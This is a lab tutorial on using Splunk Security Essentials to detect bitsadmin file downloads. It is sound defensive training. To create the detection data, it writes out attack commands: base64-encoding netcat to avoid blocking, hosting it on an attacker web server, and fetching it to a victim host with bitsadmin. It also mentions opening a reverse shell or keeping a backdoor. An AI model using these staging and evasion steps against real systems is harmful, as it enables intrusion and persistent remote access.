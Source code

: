 ### Splunk Security Essentials
1. Let's get familiar with **Splunk Security Essentials**. Explore security use cases and discover security content to start address threats and challenges.
But before you go, make sure you have **Splunk Common Information Model (CIM)** app installed (if not, install, pls). 

Apps > Find More Apps 
![](attachments/2.5-CIM_install.png)

---
2. Install Splunk Security Essentials

Apps > Find More Apps
![](attachments/2.5-SSE_install.png)

---  
3. Open Splunk Security Essentials

Click on Find Content > Security Detection Basics > Security Monitoring

![](attachments/2.5-SSE_open.png)

---  
![](attachments/2.5-SSE_open2.png)  

---

4. Find **BITSAdmin Download File** and open it

![](attachments/2.5-SSE_open_bitsadmin.png)

---  
Here you get a description about the query which identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object (for example a malware stager, or other payload).  



![](attachments/2.5-SSE_bitsadmin1.png)  

---

  

 
And you can check the query (or modify - not recommended at first time) and run it to get some interesting result.

![](attachments/2.5-SSE_bitsadmin2.png)  

--- 


If you see similar (red exclamation marks) just click "Add Macro" one by one.
![](attachments/2.5-SSE_bitsadmin_error.png)  

---  


5. Lets go to the Kali, login via ssh or VM console, and prepare the attacker host. We need a webserver to host our malware/payload or "only" a reverse shell capable tool. To do this, we should install a python based http server (or similar).

```bash
pip install rangehttpserver
```

Create a directory to store our tools for the upcomings.
```bash
mkdir attack
cd attack
```

We would like to use the netcat to open a a reverse shell to our attacker machine, so our goal is to transfer the netcat to the victim machine. Copy the netcat utility (windows version) to this newly created folder.
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

To avoid blocking our malicious transfer encode(base64) and rename the infamous/famous netcat binary.

```bash
base64 nc.exe > nc64
```

Now we are ready to host our tool by our new http server, so lets start it from the attack directory where our nc64 (the encoded binary) is. 

```bash
python -m RangeHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
---  

6. Switch to the victim machine (Win10, ip: 198.18.133.10), and start downloading the prepared nc64 by bitsadmin (mostly because if we managed to get into a system by an exploitation most of the times we only have a shell for the first steps)

```bash
bitsadmin /transfer n http://198.18.24.100:8080/nc64 c:\temp\myshell64
```

---  

7. Lets check the tracks of previous operation by the Splunk Security Essentials bitsadmin donwloads detection query. Do the search, examine the details and click on the data to get more information about the event. 
![](attachments/2.5-SSE_bitsadmin3.png)


Optional: now we have a base64 encoded netcat on the wictim host, we can decode, rename and use it to open a reverse shell to our kali (just for fun - or using maintain a permanent backdoor).
